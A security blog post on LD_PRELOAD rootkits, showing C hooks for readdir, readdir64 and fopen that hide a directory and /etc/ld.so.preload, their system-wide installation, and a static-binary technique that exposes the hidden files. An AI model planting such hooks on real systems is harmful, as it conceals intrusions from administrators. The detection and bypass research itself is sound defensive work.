 ```yaml
---
title: "Bypassing LD_PRELOAD Rootkits Is Easy"
date: 2025-05-14T19:42:06-04:00
description: Learn how to bypass LD_PRELOAD rootkits.
categories: [Malware Bypass]
tags: [Rootkit]
author: 0xMatheuZ
---
```


## Introduction

In this post, I'm going to get into a really cool topic, which is how to bypass the hooks used by LD_PRELOAD rootkits, a technique that is effective against most, if not all, of them.

##  LD_PRELOAD

`LD_PRELOAD` is an environment variable used by dynamic linkers on Unix-like systems (such as /lib64/ld-linux-x86-64.so.2 on x86_64 Linux) to force specific shared libraries to be loaded before any others during program execution.

This technique allows you to "hook" functions from standard libraries, such as libc, without modifying the program binary, and is therefore widely used both for debugging and for offensive techniques such as user space rootkits.

When an ELF binary is executed, the dynamic linker resolves external function calls using structures like the Procedure Linkage Table (PLT) and Global Offset Table (GOT). By preloading a custom library via LD_PRELOAD, attackers can override functions like readdir() or fopen().

Example:

```bash
LD_PRELOAD=./rootkitresearchers.so ls
```

> /etc/ld.so.preload  

Besides the environment variable, the /etc/ld.so.preload file can also be used to persistently load a library into all processes on the system (including root). This file is read before any environment variable.

## Installing and Hiding Directory with Rootkit

To demonstrate this, I'll use a simple LD_PRELOAD rootkit that hooks the `readdir`, `readdir64`, and `fopen` functions to change the behavior of file and directory listings. The  code is shown below.

[Full source](https://github.com/MatheuZSecurity/Rootkit/blob/main/Ring3/hiding-directory/hide.c)

```c
struct dirent *(*orig_readdir)(DIR *dirp);
struct dirent *readdir(DIR *dirp)
{
    if (!orig_readdir)
        orig_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *entry;
    while ((entry = orig_readdir(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This snippet above hooks into the readdir function, which is responsible for listing files in a directory. It uses a pointer orig_readdir to store the address of the original function, retrieved with dlsym(RTLD_NEXT, "readdir"). Then, in a loop, it calls the original function to get each entry in the directory, but filters out (ignores) entries whose name is equal to "secret" or "ld.so.preload". Thus, these entries never appear to the program that called readdir. When there are no more visible entries, it returns NULL.

```c
struct dirent64 *(*orig_readdir64)(DIR *dirp);
struct dirent64 *readdir64(DIR *dirp)
{
    if (!orig_readdir64)
        orig_readdir64 = dlsym(RTLD_NEXT, "readdir64");

    struct dirent64 *entry;
    while ((entry = orig_readdir64(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This is the same logic but for the 64-bit version readdir64.

```c
FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
    if (!orig_fopen)
        orig_fopen = dlsym(RTLD_NEXT, "fopen");

    if (strstr(pathname, HIDDEN_FILE) != NULL) {
        errno = ENOENT;
        return NULL;
    }

    return orig_fopen(pathname, mode);
}
```

This fopen hook hides access to specific files by returning a ‘file not found’ error (ENOENT) if the path contains keywords like ‘ld.so.preload’.

Now let's compile and load it into `/etc/ld.so.preload`

![imgur](https://i.imgur.com/9Id2UUt.png)

Once loaded, we can test creating a directory named `secret`, and see if it is hidden from ls.

![imgur](https://i.imgur.com/NAUR8Nl.png)

![imgur](https://i.imgur.com/inkluye.png)

As expected, it was hidden from ls.

## [Theory] Breaking LD_PRELOAD rootkits

Here’s something interesting: rootkits that use the LD_PRELOAD technique depend ENTIRELY on the Linux dynamic loader (ld-linux.so) to "inject" their malicious libraries before the standard system libraries, such as libc. But does this work with all programs? 

The short and quick answer is: No!

> Why does LD_PRELOAD work, and why does it sometimes not work?

LD_PRELOAD, as explained in previous topics, is an environment variable used by ld-linux.so to load extra libraries before others, which allows it to intercept functions from standard libraries (such as libc). In other words, you can replace system functions, such as those that list files or open files, with customized versions, which is perfect for hiding directories or files, for example.

But for this to work, the program has to use dynamic loading and depend on ld-linux.so to resolve these functions.

> Why do static binaries break this idea?

Statically linked binaries are "self-contained". They incorporate all necessary code from their dependencies (such as libc) directly into the executable. As a result, they do not invoke the dynamic linker at runtime, so LD_PRELOAD and /etc/ld.so.preload are ignored.

In other words, LD_PRELOAD and the /etc/ld.so.preload file are simply not used by these binaries. This means that rootkits based on these techniques have no effect on them, practically useless.

This is one of the most effective ways to bypass these rootkits.

## [Practice] Breaking LD_PRELOAD rootkits

With the rootkit loaded in /etc/ld.so.preload, the secret directory is hidden from commands like ls, which depend on libc and the dynamic loader. 

But it is easy to bypass this, for example: just compile a static binary, like a simple [getdents64.c](https://raw.githubusercontent.com/finallyjustice/sample/refs/heads/master/c/getdents64.c)

> gcc getdents64.c -o getdents64 --static

When using ldd getdents64, we will see that it does not load any dynamic dependencies, unlike ldd /bin/ls, which depends on libc. Since static binaries do not use the dynamic linker, LD_PRELOAD is completely ignored, and so is the rootkit.

![imgur](https://i.imgur.com/fv0N05S.png)

Bypassing LD_PRELOAD rootkits is simply very easy.

## Conclusion

LD_PRELOAD rootkits are actually very good at hiding artifacts in user space, especially because of their simplicity and the fact that they are more stable than LKM rootkits. However, as we have shown in this post, they are not infallible. Simple techniques, such as the use of static binaries, can easily bypass the hooks applied by the rootkit, precisely because they do not depend on the dynamic loader and the external libc.

If you enjoyed this content and want to discuss similar techniques, feel free to join our Discord community. See you next time!

> Rootkit Researchers

> https://discord.gg/66N5ZQppU7